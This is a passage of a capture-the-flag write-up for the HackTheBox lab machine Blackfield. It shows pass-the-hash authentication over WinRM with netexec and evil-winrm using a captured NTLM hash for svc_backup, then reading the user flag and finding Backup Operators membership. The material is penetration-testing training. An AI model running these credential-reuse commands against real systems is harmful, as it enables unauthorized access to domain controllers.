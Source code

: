 ```
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share 
```

`netexec winrm 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'`:
```
WINRM       10.10.10.192    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!) ←
```

`evil-winrm -i 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'`:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```

![Victim: svc_backup](https://custom-icon-badges.demolab.com/badge/Victim-svc%5F_backup-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
blackfield\svc_backup
```

`dir C://Users/svc_backup/Desktop`:
```
    Directory: C:\Users\svc_backup\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/28/2020   2:26 PM             32 user.txt ←
```

`type C://Users/svc_backup/Desktop/user.txt`:
```
3920b*************************** 🚩
```

`whoami /all`:
```
USER INFORMATION
----------------

User Name             SID
===================== ==============================================
blackfield\svc_backup S-1-5-21-4194615774-2175524697-3563712290-1413


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group ←
```